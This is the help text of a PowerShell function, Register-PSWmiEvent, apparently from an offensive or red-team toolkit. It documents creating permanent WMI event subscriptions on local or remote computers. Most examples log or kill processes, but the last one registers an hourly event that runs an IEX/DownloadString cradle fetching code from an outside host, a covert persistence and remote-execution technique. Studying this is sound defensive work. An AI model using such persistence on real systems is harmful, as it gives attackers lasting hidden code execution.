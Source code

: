 .PARAMETER ComputerName

Specifies the remote computer system to add a permanent WMI event to. The default is the local computer.

Type the NetBIOS name, an IP address, or a fully qualified domain name (FQDN) of one or more computers. To specify the local computer, type the computer name, a dot (.), or localhost.

.PARAMETER Credential

The credential object used to authenticate to the remote system. If not specified, the current user instance will be used.

.EXAMPLE

PS C:\>Register-PSWmiEvent -EventName KillProc -PermanentCommand "Powershell.exe -NoP -C `"Stop-Process -Id %ProcessId% -Force`"" -Trigger ProcessStart -ProcessName powershell.exe


This command creates a permanent WMI event that will kill the 'powershell.exe' process after it is started.

.EXAMPLE

$script = @’
Set objFSO=CreateObject("Scripting.FileSystemObject")
outFile="c:\temp\log.txt"
Set objFile = objFSO.CreateTextFile(outFile,True)
objFile.Write "%TargetInstance.ProcessName% started at PID %TargetInstance.ProcessId%" & vbCrLf
objFile.Close
‘@

PS C:\>Register-PSWmiEvent -EventName KillProc -PermanentScript $script -Trigger ProcessStart -ProcessName powershell.exe


This command creates a permanent WMI event will execute a log the process name and ID to a log file using VBScript anytime powershell.exe starts.

.EXAMPLE

PS C:\>Register-PSWmiEvent -EventName DLThumbdrive -PermanentScript $script -Trigger InsertUSB


This command creates a permanent WMI event will execute a script when a new volume is added to the target system, such as a USB storage device or mapped network drive.

.EXAMPLE

PS C:\>Register-PSWmiEvent -EventName Logonlog -PermanentCommand "cmd.exe /c echo %TargetInstance.Antecedent% >> c:\temp\log.txt" -Trigger UserLogon -Username any


This command creates a permanent WMI event save the Antecedent property of the target event instance, which contains the username and domain, to a log file anytime a user logs in.

.EXAMPLE

PS C:\>Register-PSWmiEvent -EventName CheckIn -PermanentCommand "powershell.exe -NoP -C IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/checkin.html')" -Trigger Interval -IntervalPeriod 3600
